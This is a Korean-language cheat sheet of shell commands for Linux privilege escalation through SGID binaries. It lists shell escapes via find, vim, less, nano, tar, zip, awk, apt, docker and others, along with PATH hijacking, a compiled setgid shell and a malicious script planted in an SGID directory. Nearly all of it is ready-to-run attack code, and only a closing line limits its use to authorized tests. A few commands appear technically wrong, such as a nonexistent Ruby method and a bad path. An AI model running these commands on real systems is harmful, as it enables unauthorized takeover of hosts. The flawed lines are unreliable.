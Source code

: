 # SGID를 이용한 리눅스 권한 상승 기법 - 실전 명령어 모음

## 1. SGID 파일 찾기 명령어

```bash
# 모든 SGID 바이너리 찾기
find / -perm -2000 -type f 2>/dev/null

# SGID + 실행 권한 함께 있는 파일만 찾기
find / -perm -2000 -a -perm /111 -type f 2>/dev/null

# SGID가 설정된 디렉터리 찾기
find / -perm -2000 -type d 2>/dev/null

# SUID + SGID 동시 설정된 파일 찾기 (강력한 권한 상승 가능)
find / -perm -6000 -type f 2>/dev/null
```

## 2. 주요 SGID 바이너리 권한 상승 기법

### find

```bash
# find에 SGID 있을 때
/usr/bin/find . -exec /bin/sh -p \; -quit
# -p 플래그: 권한 유지 (privileged) 모드로 쉘 실행
```

### vim/vi

```bash
# vim에 SGID 있을 때
/usr/bin/vim -c ':!/bin/sh'
# 또는
vim
# vim 내에서:
:!/bin/bash
```

### bash

```bash
# bash에 SGID 있을 때
/bin/bash -p
# -p 옵션은 권한을 유지하는 옵션
```

### less/more/man

```bash
# less, more에 SGID 있을 때
/usr/bin/less /etc/passwd
!/bin/sh

# man 페이지도 내부적으로 less 사용
/usr/bin/man man
!/bin/sh
```

### nano

```bash
# nano에 SGID 있을 때
/usr/bin/nano
^R^X
reset; sh 1>&0 2>&0
# ^R^X는 Ctrl+R, Ctrl+X를 의미: 명령 실행
```

### cp

```bash
# cp에 SGID 있을 때
/usr/bin/cp /bin/bash /tmp/bash_sgid
chmod g+s /tmp/bash_sgid
/tmp/bash_sgid -p
```

## 3. 심화된 SGID 활용 기법

### nmap (구버전)

```bash
# 구버전 nmap에 SGID 있을 때
/usr/bin/nmap --interactive
nmap> !sh
# 취약한 버전만 해당됨 (5.21 이하)
```

### python/perl/ruby

```bash
# python에 SGID 있을 때
/usr/bin/python -c 'import os; os.setgid(0); os.system("/bin/bash")'

# perl에 SGID 있을 때
/usr/bin/perl -e 'use POSIX; setgid(0); exec "/bin/bash";'

# ruby에 SGID 있을 때
/usr/bin/ruby -e 'Process::GID.gain_privilege(0); exec "/bin/bash"'
```

### tar/zip/gzip

```bash
# tar에 SGID 있을 때
/usr/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# zip에 SGID 있을 때
TF=$(mktemp -d)
echo 'sh 0<&2 1>&2' > $TF/x.sh
chmod +x $TF/x.sh
/usr/bin/zip $TF/x.zip $TF/x.sh --unzip-command="sh -c ./x.sh"
```

### PATH 하이재킹

```bash
# SGID 바이너리가 절대 경로 없이 명령어(예: 'ls')를 호출할 때
strings /usr/bin/custom_sgid | grep "ls"

# /tmp에 악성 ls 만들기
echo -e '#!/bin/bash\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls

# PATH 변경 후 실행
export PATH=/tmp:$PATH
/usr/bin/custom_sgid
```

### screen

```bash
# 특정 버전의 screen에 SGID 있을 때 (4.5.0 이하)
/usr/bin/screen -D -m -L /bin/bash
# 또는
/usr/bin/screen -D -m -c /tmp/.screenrc
# /tmp/.screenrc 내용: exec /bin/bash
```

## 4. 고급 SGID 활용 기법

### awk/sed/ed

```bash
# awk에 SGID 있을 때
/usr/bin/awk 'BEGIN {system("/bin/sh")}'

# sed에 SGID 있을 때
/usr/bin/sed -n '1e /bin/sh' /etc/passwd

# ed에 SGID 있을 때
/usr/bin/ed
!sh
```

### apt/apt-get

```bash
# apt/apt-get에 SGID 있을 때
/usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# 또는
/usr/bin/apt-get changelog apt
# 내부적으로 less를 호출하므로 !sh로 쉘 획득
```

### 기타 자주 악용되는 SGID 바이너리

```bash
# chsh에 SGID 있을 때 (shadow 그룹)
/usr/bin/chsh
# 암호 확인 후 쉘 변경, /etc/shadow 접근 권한 얻음

# crontab에 SGID 있을 때 (crontab 그룹)
/usr/bin/crontab -e
# 편집기에서 !sh나 외부 명령 실행 가능

# docker에 SGID 있을 때
/usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### 새로운 SGID 바이너리 생성

```bash
# 내가 속한 그룹으로 SGID 바이너리 생성
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\nint main(){\nsetgid(0);\nsystem("/bin/bash");\nreturn 0;\n}' > /tmp/sgidshell.c
gcc /tmp/sgidshell.c -o /tmp/sgidshell
chmod g+s /tmp/sgidshell
./tmp/sgidshell
```

## 5. SGID 디렉터리 활용 기법

```bash
# SGID가 설정된 디렉터리 찾기
find / -perm -g=s -type d 2>/dev/null

# SGID 디렉터리 내 스크립트 생성
echo '#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash' > /sgid_directory/evil.sh
chmod +x /sgid_directory/evil.sh

# 만약 이 디렉터리가 cron 작업으로 접근된다면 권한 상승 가능
```

## 6. SGID 분석 명령어

```bash
# 바이너리 내부 명령어 패턴 확인
strings /usr/bin/sgid_binary | grep -E '/bin/|exec|system'

# 라이브러리 의존성 확인
ldd /usr/bin/sgid_binary

# strace로 시스템 호출 추적
strace -f -o /tmp/sgid_trace.txt /usr/bin/sgid_binary

# 권한 있는 그룹 확인
id -G
id -Gn

# 파일 시스템 그룹 권한 확인
find / -group <그룹이름> -type f 2>/dev/null
```

---

> 주의: 이 명령어들은 침투 테스트나 권한 있는 환경에서만 사용하세요.
> 무단으로 시스템에서 권한 상승을 시도하는 것은 불법이며 법적 처벌을 받을 수 있습니다.
